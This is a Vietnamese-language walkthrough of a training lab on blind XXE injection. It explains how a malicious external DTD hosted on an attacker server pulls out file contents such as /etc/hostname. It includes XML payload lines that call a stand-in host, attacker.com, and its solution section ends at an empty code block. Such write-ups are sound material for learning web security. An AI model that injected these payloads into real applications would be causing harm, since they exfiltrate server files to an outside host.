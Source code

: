 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

# Example

1. Attacker tạo một tệp DTD độc hại chứa payload để lấy dữ liệu. Tệp DTD có thể có dạng như sau:

```xml
<!ENTITY % payload SYSTEM "http://attacker.com/evil.dtd">
<!ENTITY % externalDTD SYSTEM "http://attacker.com/evil.dtd">
%externalDTD;
```

Attacker lưu trữ tệp DTD độc hại trên máy chủ của mình tại URL được chỉ định, chẳng hạn như http://attacker.com/evil.dtd. Tệp DTD này chứa các lệnh để trích xuất và truyền dữ liệu mong muốn.

2. Attacker tạo một payload XXE và tiêm vào ứng dụng có lỗ hổng. Payload này tham chiếu đến tệp DTD bên ngoài độc hại. Ví dụ:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
```

Khi ứng dụng xử lý đầu vào XML, nó sẽ tải tệp DTD bên ngoài được chỉ định trong payload từ máy chủ của kẻ tấn công.

Tệp DTD độc hại chứa hướng dẫn để trích xuất dữ liệu mong muốn, chẳng hạn như truy cập vào các tệp, kết nối đến cơ sở dữ liệu hoặc thực hiện các yêu cầu mạng để truyền dữ liệu về máy chủ của kẻ tấn công.

Dữ liệu nhạy cảm được trích xuất và gửi đến máy chủ do kẻ tấn công kiểm soát.

# Solution:

Ta có form của lab như sau

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/8c22258d-5c53-4290-91c4-dfed90a6ed35)

Làm như tương tự các lab trước, ta check stock

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/3e590be1-3c13-40b7-879f-452a6ce7a0a5)

Tiếp theo mình có 1 file DTD ở exploit server

```xml

```










